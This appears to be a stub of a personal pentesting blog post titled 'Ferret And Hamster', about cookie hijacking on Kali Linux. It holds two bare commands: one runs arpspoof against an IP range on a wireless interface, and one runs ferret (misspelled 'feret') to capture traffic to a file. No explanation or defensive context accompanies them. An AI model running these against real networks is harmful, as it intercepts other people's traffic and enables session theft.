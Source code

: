 ```yaml
---
layout: post
title: Ferret And Hamster
categories: [Pentesting]
tags: [Kali, Linux]
description: Coockie Hijack
fullview: false
comments: true
---
```


{% highlight yaml %}
$arpspoof -i wlan0 -t (RANGE_OF_IP/24)
$feret -i wlan0 -r sniff.pcap
{% endhighlight %}

